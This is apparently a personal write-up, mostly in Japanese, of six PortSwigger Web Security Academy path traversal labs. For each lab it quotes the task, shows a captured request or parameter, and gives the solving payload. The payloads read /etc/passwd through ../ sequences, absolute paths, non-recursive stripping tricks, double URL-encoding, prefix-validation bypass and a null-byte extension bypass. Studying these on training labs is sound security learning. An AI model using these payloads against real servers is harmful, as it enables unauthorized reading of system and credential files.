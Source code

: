 # Path Traversal
- [Path Traversal](#path-traversal)
  - [File path traversal, simple case](#file-path-traversal-simple-case)
    - [overview](#overview)
    - [Analyze \& Exploit](#analyze--exploit)
  - [File path traversal, traversal sequences blocked with absolute path bypass](#file-path-traversal-traversal-sequences-blocked-with-absolute-path-bypass)
    - [Overview](#overview-1)
    - [Analyze \& Exploit](#analyze--exploit-1)
  - [File path traversal, traversal sequences stripped non-recursively](#file-path-traversal-traversal-sequences-stripped-non-recursively)
    - [Overview](#overview-2)
    - [Analyze \& Exploit](#analyze--exploit-2)
  - [File path traversal, traversal sequences stripped with superfluous URL-decode](#file-path-traversal-traversal-sequences-stripped-with-superfluous-url-decode)
    - [Overview](#overview-3)
    - [Analyze \& Exploit](#analyze--exploit-3)
  - [File path traversal, validation of start of path](#file-path-traversal-validation-of-start-of-path)
    - [Overview](#overview-4)
    - [Analyze \& Exploit](#analyze--exploit-4)
  - [File path traversal, validation of file extension with null byte bypass](#file-path-traversal-validation-of-file-extension-with-null-byte-bypass)
    - [Ovewview](#ovewview)
    - [Analyze \& Exploit](#analyze--exploit-5)

## File path traversal, simple case
### overview

> This lab contains a path traversal vulnerability in the display of product images.
>
> To solve the lab, retrieve the contents of the /etc/passwd file.

https://portswigger.net/web-security/file-path-traversal/lab-simple

### Analyze & Exploit

`/`にアクセスすると、以下のようなリクエストが発生していることがわかります。

```text
GET /image?filename=38.jpg HTTP/2
Host: 0a09004d039a75d6878f949900e800bc.web-security-academy.net
Cookie: session=hK3Ip7zjZQXChm7OZzsq05ZJPT16jYif
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a09004d039a75d6878f949900e800bc.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: ja,en-US;q=0.9,en;q=0.8
```

`../../../../../../../../../../../../../../../../../../../../../../../../etc/passwd`を`38.jpg`の代わりに送ると、`/etc/passwd`の中身を読み取ることができます。

## File path traversal, traversal sequences blocked with absolute path bypass

### Overview
```
This lab contains a path traversal vulnerability in the display of product images.

The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.

To solve the lab, retrieve the contents of the /etc/passwd file.
```

https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass

### Analyze & Exploit

脆弱性がありそうな箇所は前回と同じです。

が、前回と同じペイロードを入れても`No such File`と言われてしまいます。

そこで、相対パス指定ではなく、絶対パス(`/etc/passwd`)で入れてみます。

これで`/etc/passwd`が読み取れます。

## File path traversal, traversal sequences stripped non-recursively

### Overview
```text
This lab contains a path traversal vulnerability in the display of product images.

The application strips path traversal sequences from the user-supplied filename before using it.

To solve the lab, retrieve the contents of the /etc/passwd file.
```

https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively

### Analyze & Exploit

`../`を取り除くらしいのでパズルをするだけです。

`..././..././..././..././..././..././..././..././..././..././..././..././..././..././..././..././..././..././..././..././..././..././..././..././..././..././..././..././etc/passwd`

## File path traversal, traversal sequences stripped with superfluous URL-decode

### Overview
```text
This lab contains a path traversal vulnerability in the display of product images.

The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it.

To solve the lab, retrieve the contents of the /etc/passwd file.
```

https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode

### Analyze & Exploit

これは仕様によってTraversal Sequenceが消される時はUrl Enocodeで対応しようねというラボなので、以下で終わりです。

```text
%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd
```

## File path traversal, validation of start of path

### Overview

```text
This lab contains a path traversal vulnerability in the display of product images.

The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.

To solve the lab, retrieve the contents of the /etc/passwd file.
```

### Analyze & Exploit

画像を取得する際のパラメータが以下のようになっています。

```
/image?filename=/var/www/images/23.jpg
```

この場合は、`/var/www/images`を期待する可能性があるので、`/var/www/images/../../`のようにする必要があります。

つまり、`/var/www/images/../../../../../../../../../../../../../../etc/passwd`で終わりです。

## File path traversal, validation of file extension with null byte bypass

### Ovewview

```text
This lab contains a path traversal vulnerability in the display of product images.

The application validates that the supplied filename ends with the expected file extension.

To solve the lab, retrieve the contents of the /etc/passwd file.
```

### Analyze & Exploit

アプリケーションは、ユーザーから与えられたファイル名が、.pngのような期待されるファイル拡張子で終わることを期待する時Null bytesを使用することで、Bypassできるというもの。

つまりこれで終わり。

```text
../../../../../../../../../../../../../../../../../../../../../../../../etc/passwd%00.jpg
```
